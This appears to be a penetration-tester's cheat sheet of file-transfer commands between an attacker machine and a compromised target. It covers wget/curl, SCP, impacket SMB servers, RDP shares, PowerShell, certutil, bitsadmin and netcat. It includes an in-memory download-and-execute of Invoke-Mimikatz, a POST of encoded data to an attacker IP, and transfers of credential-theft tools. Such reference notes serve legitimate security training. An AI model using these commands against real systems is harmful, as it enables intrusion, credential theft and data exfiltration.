 # File Transfers

## **Introduction**

> There are many different methods to transfers files from a target machine to the attackers machine and vice versa. The following notes are a useful reference to help you achieve this task.

***

## **Basic Methods**

| Command                                                                                          | Description                                                                  |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------- |
| `cat filename \| base64 -w 0; echo` followed by `echo 'encoding-result' \| base64 -d`            | Encode and decode a file via base64 to transfer its content on local machine |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget                                                   |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL                                                   |

***

## **Using SSH Secure Copy (SCP)**

| Command                                                         | Description               |
| --------------------------------------------------------------- | ------------------------- |
| `scp C:\Temp\bloodhound.zip user@target-ip:/tmp/bloodhound.zip` | Upload a file using SCP   |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`        | Download a file using SCP |

***

## **Using a fake SMB Server**

| Command                                                                                  | Description                                                             |
| ---------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| `sudo impacket-smbserver sharename -smb2support /tmp/smbshare`                           | Create an SMB Server with anonymous access                              |
| `copy \\server-ip\share\nc.exe`                                                          | Copy file to previous SMB Server when anonymous access is available     |
| `sudo impacket-smbserver sharename -smb2support /tmp/smbshare -user test -password test` | Create an SMB Server hosting a share named "sharename" with credentials |
| `net use n: \\server-ip\sharename /user:test test`                                       | Copy file to previous SMB Server when anonymous access is NOT available |

***

## **Using RDP Shares and Clipboard**

* Create an SMB share containing the Kali user's home drive:\
  `xfreerdp /v:ip /u:user /p:password +home-drive`
* Connect to a FreeRDP server with a shared directory:\
  `xfreerdp /v:ip_address /u:username /p:password /drive:path/to/directory,share_name`
* Use RDP clipboard redirection:\
  `xfreerdp /v:ip_address /u:username /p:password +clipboard`

***

## **Windows File Transfers**

* Download a file with PowerShell:\
  `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`
* Execute a file in memory using PowerShell:\
  `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`
* Upload a file with PowerShell:\
  `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`
* Download a file using Bitsadmin:\
  `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`
* Download a file using Certutil:\
  `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`
* Download a file using PHP\
  `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
* Invoke-WebRequest using a Chrome User Agent:\
  `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`

***

## **File Transfers with Netcat**

**Case 1 - Using nc to Upload from attacker to target:**

1. From the target machine: `nc -l -p 8000 > SharpKatz.exe`
2. From attacker machine: `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

**Case 2 - Using ncat to Upload from attacker to target:**

1. From the target machine: `ncat -l -p 8000 --recv-only > SharpKatz.exe`
2. From attacker machine: `ncat --send-only target-ip 8000 < SharpKatz.exe`

***

## **Additional Resources**

**Blog:** [**https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65**](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
